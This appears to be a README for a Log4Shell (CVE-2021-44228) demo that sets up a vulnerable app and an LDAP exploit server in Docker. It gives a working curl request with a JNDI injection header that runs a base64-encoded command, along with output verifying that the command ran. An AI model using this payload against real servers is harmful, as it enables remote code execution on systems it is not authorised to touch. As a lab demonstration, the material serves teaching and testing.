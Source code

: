 # Log4Shell CVE-2021-44228 Demo
## Environment Setup

### LDAP server

Firstly build a docker image with ldap exploit `docker build -t iteratec.io/log4shell-ldap-exploit ./ldap`

### Vulnerable app

Firstly build a docker image with ldap exploit `docker build -t iteratec.io/log4shell-vulnerable-app ./log4shell-vulnerable-app`

### Run

Use provided docker-compose to start vunerable application and ldap server exploit.

If you are using Podman:

`podman-compose -f docker-compose.yml -p log4shell-demo up -d`

## Executing remote code

Once your containers are up you may try to execute some remote code:

`curl localhost:8080  -H 'X-Api-Version: ${jndi:ldap://172.16.238.10:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`

The Base64 param value is actual command that is beeing executed:
```
➜ echo 'dG91Y2ggL3RtcC9wd25lZAo=' | base64 -D
touch /tmp/pwned
```

### Verify

You can verify that the _/tmp/pwned_ file has been created.
```
➜ docker exec log4shell-app-1 ls -la /tmp

total 28
drwxrwxrwt    1 root     root          4096 Nov 21 20:57 .
drwxr-xr-x    1 root     root          4096 Nov 21 20:41 ..
drwxr-xr-x    2 root     root          4096 Nov 21 20:57 hsperfdata_root
-rw-r--r--    1 root     root             0 Nov 21 20:57 pwned
drwx------    2 root     root          4096 Nov 21 20:57 tomcat-docbase.8080.7482410478278179066
drwx------    3 root     root          4096 Nov 21 20:57 tomcat.8080.5953130939003932607
drwx------    3 root     root          4096 Nov 21 20:42 tomcat.8080.6143343860570001124
drwx------    3 root     root          4096 Nov 21 20:41 tomcat.8080.8599857554077526416
```